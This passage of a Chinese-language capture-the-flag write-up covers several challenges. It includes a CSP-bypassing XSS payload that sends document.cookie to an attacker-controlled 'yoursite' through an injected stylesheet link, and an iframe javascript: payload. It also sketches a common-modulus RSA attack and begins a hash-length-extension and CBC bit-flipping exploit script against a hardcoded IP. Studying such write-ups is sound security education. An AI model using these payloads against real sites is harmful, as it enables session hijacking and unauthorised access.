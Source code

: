 ```python
}
adminSess.post(f"{SERVER}/install", data=data)

register("123123123", "1231231231")
```

然后就守株待兔吧 233  
![](https://i.loli.net/2019/03/21/5c93a61185745.png#center)


## HappyXss

这个算是比较简单的了, 直接用 `<iframe src=javascript:alert('xss');></iframe>` 就可以绕了  
不过需要注意下 CSP, `Content-Security-Policy: default-src 'self' 'unsafe-inline' 'unsafe-eval'; style-src *`  
用 `<img src=''>` 的方式来拿 cookie 是不行了, 但是注意 `style-src *`,  
可以通过 css 来拿 cookie, payload 这样  

```javascript
(function(){ css=document.createElement("link");css.setAttribute("rel","stylesheet");css.setAttribute("href","yoursite?a="+escape(document.cookie));document.getElementsByTagName("head")[0].appendChild(css);}())
```


## easy_rsa

共模攻击, 不过这里 e1, e2 不互质, 3 == gcd(e1, e2), 我们先把 e1, e2 都除以 3  
然后把除以三以后的 e1, e2 丢到脚本里跑, 把结果开三次方就可以了


## Sign_in_SemiHard

哈希长度拓展 + CBC 字节翻转, 直接上脚本吧, 不多说了  
因为时间有限所以有很多地方实现的很暴力, 233

```python
import hashpumpy
import remoteCLI
import string
from binascii import hexlify, unhexlify

BLOCK_LENGTH = 16
ZEROS = bytearray([0 for i in range(16)])
regToken = r'Your token is: ([0-9A-Za-z]{0,})'
regUsername = r'Sorry, your username\(hex\) ([0-9A-Za-z]{0,}) is inconsistent with given signature\.'


def xor(a, b):
    result = bytearray()
    for i in range(len(a)):
        result.append(a[i] ^ b[i])
    return result


unprintable = b""
for i in range(256):
    if chr(i) not in string.printable:
        unprintable += bytes([i])

cli = remoteCLI.CLI()
cli.connect("47.95.212.185", 38611)
cli.sendLine("1")
```